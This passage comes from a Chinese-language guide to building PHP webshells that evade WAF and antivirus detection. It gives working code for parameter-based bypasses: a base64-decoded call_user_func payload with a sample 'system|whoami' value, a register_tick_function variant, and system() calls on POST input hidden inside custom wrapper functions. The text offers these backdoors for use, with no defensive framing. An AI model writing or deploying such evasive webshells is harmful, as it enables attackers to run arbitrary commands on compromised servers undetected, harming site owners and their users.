 加密手法可以看我写的博客： [https://blog.zgsec.cn/archives/147.html](https://blog.zgsec.cn/archives/147.html)

## 9# 传参绕过

将恶意代码不写入文件，而是通过传参传入，所以这个比较难以被常规 WAF 所识别

### 9.1 Base64 传参

```plain
$decrpt = $_REQUEST['a'];
$arrs = explode("|", base64_decode($decrpt));
call_user_func($arrs[0],$arrs[1]);
```

传参内容：

```plain
a=c3lzdGVtfHdob2FtaSAg    //system|whoami  的 base64 加密
```

也可以尝试使用其他编码或者加密方式进行传参

### 9.2 函数构造传参

可以用一些定义函数的函数来进行传参绕过，比如使用 `register_tick_function()` 这个函数

```plain
register_tick_function ( callable $function [, mixed $... ] ) : bool
```

例子如下：

```plain
$f = $_REQUEST['f'];
declare(ticks=1);
register_tick_function ($f, $_REQUEST['aabyss']);
```

## 10# 自定义函数绕过

通过自定义函数，将恶意代码内容隐藏于自定义函数当中，再进行拼接执行

### 10.1 简单自定义函数

这个要与其他的姿势进行结合，目前没办法通过简单自定义函数进行免杀

```plain
function out($b){
    return $b;
}
function zhixin($a){
    return system($a);
}
function post(){
    return $_POST['aabyss'];
}

function run(){
    return out(zhixin)(out(post()));
}

run();
```
